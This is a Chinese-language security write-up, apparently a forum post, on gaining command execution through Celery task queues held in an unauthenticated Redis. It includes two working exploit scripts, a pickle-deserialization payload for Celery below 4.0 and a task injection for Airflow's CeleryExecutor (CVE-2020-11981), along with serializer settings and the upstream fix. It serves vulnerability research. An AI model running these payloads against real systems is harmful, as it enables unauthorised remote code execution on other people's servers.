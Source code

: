 [![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5427e5450fb92ec89f0d1447f60fb2393b13c682.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5427e5450fb92ec89f0d1447f60fb2393b13c682.png)

前言
--

Celery 是一个简单、灵活且可靠的分布式系统，用于处理大量消息，同时为操作提供维护此类系统所需的工具。它是一个专注于实时处理的任务队列，同时也支持任务调度。

前段时间碰到个未授权的Redis，看里面的数据是作为Celery的任务队列使用，所以想研究下这种情况应该如何进行利用。

目前能够想到的利用有两种：

1. 任务信息序列化使用pickle模式，利用python反序列化漏洞进行利用
2. 找到可以执行任意命令、代码、函数的Task，下发该Task任务

**本文只讨论Redis,使用其他AMQP（ActiveMQ、RabbitMQ等等）应该也是同理。**

相关环境已经给vulhub提了PR，后续可以从vulhub上布置环境进行体验。

Celery的任务Serializer
-------------------

有个比较有意思的地方：3.1.x最后一个版本为3.1.26,在README中说明下一个版本为3.2，结果3.1.x之后的版本，直接变成4.0.

|  |  |
|---|---|
| [`task_serializer`](https://docs.celeryproject.org/en/stable/userguide/configuration.html#std-setting-task_serializer) | 4.0之前默认为pickle，之后为json |
| [`result_serializer`](https://docs.celeryproject.org/en/stable/userguide/configuration.html#std-setting-result_serializer) | 4.0之前默认为pickle，之后为json |
| [`event_serializer`](https://docs.celeryproject.org/en/stable/userguide/configuration.html#std-setting-event_serializer) | 只接受JSON |

Celery &lt; 4.0的利用（Pickle反序列化利用）
--------------------------------

由于Celery &lt; 4.0的情况下，默认的task\_serializer为pickle，可以直接利用pickle反序列化漏洞进行利用。

（如果对方取result的话，也可在取result处进行覆盖利用）

本章以Celery3.1.23为例进行利用。

写一个最简单的Task：

```python
from celery import Celery
app = Celery('tasks', broker='redis://redis/0')
@app.task
def add(x, y):
    return x + y
```

Celery使用的默认队列名为celery，在Redis中表现为db中存在一个key为celery的List（存在未消费的任务时存在）:

在无Worker的情况下启动任务：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-76a7311376a9a521ade0e6d6834647c43574626d.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-76a7311376a9a521ade0e6d6834647c43574626d.png)

可以看到名为celery的key，以及其中内容，body为base64后的pickle序列化内容。

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-29f941c098e8c5e76e505d8441ef1caca37cdd0d.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-29f941c098e8c5e76e505d8441ef1caca37cdd0d.png)

**Tips：**可以通过以`_kumbu.bind.`为前缀的key，确定都有哪些队列，这个是Kombu的一个命名规范

Celery的具体任务消息结果可以参考官方文档，此处不做详细讨论：

<https://docs.celeryproject.org/en/stable/internals/protocol.html>

Celery使用Kombu这个AMQP实现进行任务的下发与拉取，这里不分析详细逻辑，直接拿出队列内容，写一个简单的利用脚本（执行`touch /tmp/celery_success`命令），将body内容替换为命令执行的pickle数据：

```python
import pickle
import json
import base64
import redis
#redis连接
r = redis.Redis(host='localhost', port=6379, decode_responses=True,db=0) 
#队列名
queue_name = 'celery'
ori_str="{\"content-type\": \"application/x-python-serialize\", \"properties\": {\"delivery_tag\": \"16f3f59d-003c-4ef4-b1ea-6fa92dee529a\", \"reply_to\": \"9edb8565-0b59-3389-944e-a0139180a048\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"delivery_info\": {\"routing_key\": \"celery\", \"priority\": 0, \"exchange\": \"celery\"}, \"correlation_id\": \"6e046b48-bca4-49a0-bfa7-a92847216999\"}, \"headers\": {}, \"content-encoding\": \"binary\", \"body\": \"gAJ9cQAoWAMAAABldGFxAU5YBQAAAGNob3JkcQJOWAQAAABhcmdzcQNLZEvIhnEEWAMAAAB1dGNxBYhYBAAAAHRhc2txBlgJAAAAdGFza3MuYWRkcQdYAgAAAGlkcQhYJAAAADZlMDQ2YjQ4LWJjYTQtNDlhMC1iZmE3LWE5Mjg0NzIxNjk5OXEJWAgAAABlcnJiYWNrc3EKTlgJAAAAdGltZWxpbWl0cQtOToZxDFgGAAAAa3dhcmdzcQ19cQ5YBwAAAHRhc2tzZXRxD05YBwAAAHJldHJpZXNxEEsAWAkAAABjYWxsYmFja3NxEU5YBwAAAGV4cGlyZXNxEk51Lg==\"}"
task_dict = json.loads(ori_str)
command = 'touch /tmp/celery_success'
class Person(object):
    def __reduce__(self):
        return (__import__('os').system, (command,))
pickleData = pickle.dumps(Person())
task_dict['body']=base64.b64encode(pickleData).decode()
print(task_dict)
r.lpush(queue_name,json.dumps(task_dict))
```

执行之后，可以看到Celery Worker所在console有如下报错：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8f208d422da9614f87f1e03f1d242d1542168153.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8f208d422da9614f87f1e03f1d242d1542168153.png)

继续查看tmp目录，可以看到文件创建成功：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-17ffa68d256bfe9ddb3cdad0ac61a89c21eb66fc.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-17ffa68d256bfe9ddb3cdad0ac61a89c21eb66fc.png)

Celery 4.0之后的利用
---------------

### 配置了CELERY\_ACCEPT\_CONTENT支持Pickle

Celery4.0之后，如果直接使用如上脚本会有如下拒绝反序列化的提示：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-003bb3dfb5bbcbf1c8c44f2f3c91477cf33862a9.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-003bb3dfb5bbcbf1c8c44f2f3c91477cf33862a9.png)

实际上在celery 3.1.X后面的版本在启动worker时，会有个提示：如果3.2之后的版本（实际上是4.0），需要配置启动CELERY\_ACCEPT\_CONTENT选项来启动worker的pickle支持。

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1ce57923191bf6b02e718610e12e6c29e718da9b.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1ce57923191bf6b02e718610e12e6c29e718da9b.png)

添加配置，即可如4.0版本前一样进行利用：

```python
app.conf['CELERY_ACCEPT_CONTENT'] = ['pickle', 'json', 'msgpack', 'yaml']
```

### Apache Airflow的CeleryExecutor利用

[CVE-2020-11981](https://nvd.nist.gov/vuln/detail/CVE-2020-11981)是利用Airflow的CeleryExecutor类来进行命令执行，可利用版本小于1.10.10，

写入一个JSON任务消息执行`airflow.executors.celery_executor.execute_command`到airflow的celery redis队列中,此处注意队列名为default：

```python
import pickle
import json
import base64
import redis
r = redis.Redis(host='localhost', port=6379, decode_responses=True,db=0) 
queue_name = 'default'
ori_str="{\"content-encoding\": \"utf-8\", \"properties\": {\"priority\": 0, \"delivery_tag\": \"f29d2b4f-b9d6-4b9a-9ec3-029f9b46e066\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"correlation_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"delivery_info\": {\"routing_key\": \"celery\", \"exchange\": \"\"}, \"reply_to\": \"fb996eec-3033-3c10-9ee1-418e1ca06db8\"}, \"content-type\": \"application/json\", \"headers\": {\"retries\": 0, \"lang\": \"py\", \"argsrepr\": \"(100, 200)\", \"expires\": null, \"task\": \"airflow.executors.celery_executor.execute_command\", \"kwargsrepr\": \"{}\", \"root_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"parent_id\": null, \"id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"origin\": \"gen1@132f65270cde\", \"eta\": null, \"group\": null, \"timelimit\": [null, null]}, \"body\": \"W1sxMDAsIDIwMF0sIHt9LCB7ImNoYWluIjogbnVsbCwgImNob3JkIjogbnVsbCwgImVycmJhY2tzIjogbnVsbCwgImNhbGxiYWNrcyI6IG51bGx9XQ==\"}"
task_dict = json.loads(ori_str)
command = ['touch', '/tmp/airflow_success']
body=[[command], {}, {"chain": None, "chord": None, "errbacks": None, "callbacks": None}]
task_dict['body']=base64.b64encode(json.dumps(body)).decode()
print(task_dict)
r.lpush(queue_name,json.dumps(task_dict))
```

Airflow的worker日志：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-829a9779da61c030ea753aa2bdef1317d9d03da9.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-829a9779da61c030ea753aa2bdef1317d9d03da9.png)

worker所在docker的tmp目录中出现airflow\_success文件：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-6b6ff05c2aff61bd2c07abf73d653b61cffed30d.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-6b6ff05c2aff61bd2c07abf73d653b61cffed30d.png)

修复后只允许数组前三位为\["airflow", "tasks", "run"\],[提交](https://github.com/apache/airflow/commit/6943b171da6537ad6721cc7527b24236f901ee04#diff-ac6d6f745ae19450e4bfbd1087d865b5784294354c885136b97df437460d5f10L72)如下，后续改为单独抽出一个validate函数，用于多处的命令执行检测：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-447e938fe4263921795342bfb83ceb6bb589396b.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-447e938fe4263921795342bfb83ceb6bb589396b.png)

结语
--

Celery 4.0以上暂未找到更好的利用方法，等找到以后再发吧。

参考
--

<https://docs.celeryproject.org/en/stable/userguide/configuration.html>

<https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk>

<https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers>

<https://www.jianshu.com/p/52552c075bc0>

<https://www.runoob.com/w3cnote/python-redis-intro.html>

[https://blog.csdn.net/SKI\_12/article/details/85015803](https://blog.csdn.net/SKI_12/article/details/85015803)

<https://nvd.nist.gov/vuln/detail/CVE-2020-11981>

<https://lists.apache.org/thread.html/r7255cf0be3566f23a768e2a04b40fb09e52fcd1872695428ba9afe91%40%3Cusers.airflow.apache.org%3E>